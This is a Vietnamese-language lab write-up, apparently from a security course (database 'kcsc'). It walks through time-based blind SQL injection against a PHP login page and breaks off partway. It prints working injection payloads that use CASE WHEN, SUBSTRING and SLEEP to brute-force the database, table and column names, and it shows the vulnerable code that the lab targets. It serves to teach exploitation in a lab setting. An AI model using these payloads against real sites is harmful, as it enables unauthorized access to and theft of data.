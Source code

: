 ```php
            if($row = mysqli_num_rows($resullt)){
                echo '<br><center>Hello brooooooooooo!</center>';
            } else {
                echo '<br><center>Hello brooooooooooo!</center>';
            }
        } else {
            echo '<br><center>Hello brooooooooooo!</center>';
        }
    }

    if(isset($_POST['logout'])) {
        setcookie('remember', '', time() - 3600, "/");
        header('location: lab_boolean_based.php');
    }
```

#### Một trong số những hướng khai thác của lab này như sau:
**Bước 1: Tìm vị trí dính sql injection**

Ở lab này thì vị trí bị dính injection vẫn là ở username nhưng vấn đề ở đây là dù em có nhập vào input gì thì em cũng sẽ chỉ nhận được dòng `Hello brooooooooooo!`

![](https://i.imgur.com/i4oDAsn.png)

Nên em bắt đầu từ time based bằng: `' or (case when 1=2 then 1 else sleep(1) end)=1 -- `

![](https://i.imgur.com/HpsXRBe.png)

Thấy rằng response time trả về là 4 giây chứng tỏ là em đã sql injection time based thành công.

**Bước 2: Tìm tên database, tên bảng, tên cột**

Để bắt đầu tìm tên bảng em dùng: `' or (case when substring((select database() limit 0,1),§1§,1)='§a§' then sleep(1) else 1 end)=1 -- `

![](https://i.imgur.com/jxTchwQ.png)

Bắt những response time nào lớn hơn 4 giây và em nhận được tên database: `kcsc`

Tiếp tục với phương pháp như trên em brute force tên bảng bằng:
`' or (case when substring((select table_name from information_schema.tables where table_schema='kcsc' limit 0,1),§1§,1)='§6§' then sleep(1) else 1 end)=1 -- `

![](https://i.imgur.com/T8fBm8P.png)

Em lấy được tên bảng là: `task_3`

Sau khi đã có tên bảng em bắt đầu brute force tên cột bằng:
`' or (case when substring((select column_name from information_schema.columns where table_name='task_3' limit 2,1),§1§,1)='§p§' then sleep(1) else 1 end)=1 -- `

![](https://i.imgur.com/m5owObz.png)
